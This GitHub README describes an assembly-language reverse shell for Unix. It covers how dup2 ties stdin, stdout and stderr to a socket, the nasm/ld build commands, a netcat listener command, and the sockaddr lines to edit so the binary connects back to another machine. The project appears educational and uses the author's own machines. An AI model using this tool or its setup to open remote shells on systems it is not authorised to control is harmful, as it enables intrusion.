 # assembly-Reverse-Shell
I created a simple reverse shell in assembly language for Unix systems.

The goal is to create a socket on PC1 and establish a connection to PC2. We will use the [dup2](https://man7.org/linux/man-pages/man2/dup2.2.html) syscall with the socket's file descriptor as the old file descriptor, and stdin, stdout, and stderr as the new file descriptors. This setup allows PC2 to execute commands on PC1.

# How to use it on your own pc

Compile reverse_shell.s with `nasm -f elf64 reverse_shell.s -o reverse_shell.o` and `ld reverse_shell.o -o reverse_shell`

Now open two terminals, do `nc -l 6969` to TERM1 and `./reverse_shell` to TERM2.

You can now do commands from TERM1 to TERM2!

# How to use it with two pc on the same network
Convert PC1's ip and post to little-endian format.

Replace the information on lines 18 and 19 in your assembly file:
```asm
at sin_port,    dw 0x391B
at sin_addr,    dd 0x100007f
```
Open netcat on PC1 with `nc -l <PORT>`

Launch binary on PC2 with `./reverse_shell`

PC1 can now exec commands on PC2!

